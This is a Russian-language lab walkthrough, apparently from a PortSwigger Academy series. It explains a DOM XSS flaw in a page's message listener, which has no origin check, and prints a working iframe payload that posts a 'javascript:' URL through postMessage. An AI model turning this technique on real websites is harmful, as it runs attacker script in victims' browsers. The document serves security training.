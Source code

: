 Откроем страницу 

Нажмем `ПКМ` -> `Inspect`
и увидим следующий скрипт
```
<script>
                        window.addEventListener('message', function(e) {
                            var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
                            document.body.appendChild(iframe);
                            try {
                                d = JSON.parse(e.data);
                            } catch(e) {
                                return;
                            }
                            switch(d.type) {
                                case "page-load":
                                    ACMEplayer.element.scrollIntoView();
                                    break;
                                case "load-channel":
                                    ACMEplayer.element.src = d.url;
                                    break;
                                case "player-height-changed":
                                    ACMEplayer.element.style.width = d.width + "px";
                                    ACMEplayer.element.style.height = d.height + "px";
                                    break;
                            }
                        }, false);
                    </script>
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/17.%20DOM-based%20vulnerabilities/3.%20DOM%20XSS%20using%20web%20messages%20and%20JSON.parse/pics%20for%20walkthrough/1.png)

Когда созданный нами iframe загружается, метод `postMessage()` отправляет веб-сообщение на домашнюю страницу с типом `load-channel`. Прослушиватель событий получает сообщение и анализирует его с помощью `JSON.parse()` перед отправкой на коммутатор.

Переключатель запускает функцию `load-channel case`, которая присваивает свойству `url` сообщения атрибут `src` элемента `ACMEplayer.element iframe`. Однако в этом случае свойство `url` сообщения фактически содержит нашу полезную нагрузку JavaScript.

Поскольку второй аргумент указывает, что для веб-сообщения разрешен любой `targetOrigin`, а обработчик события не содержит никакой проверки происхождения, полезная нагрузка устанавливается как` src iframe ACMEplayer.element`. Функция `print()` вызывается, когда пользователь загружает страницу в свой браузер.

Перейдем в `Exploit server` и сконфигурируем вредоносный payload
```
<iframe src=https://0a5000940496bdfc801c67190053005d.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/17.%20DOM-based%20vulnerabilities/3.%20DOM%20XSS%20using%20web%20messages%20and%20JSON.parse/pics%20for%20walkthrough/2.png)

Если нажмем `View exploit` увидим, что все отработало

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/17.%20DOM-based%20vulnerabilities/3.%20DOM%20XSS%20using%20web%20messages%20and%20JSON.parse/pics%20for%20walkthrough/3.png)


Нажмем `Store` -> `Deliver exploit to victim` и получим уведомление об успешно выполненной лабораторной работе
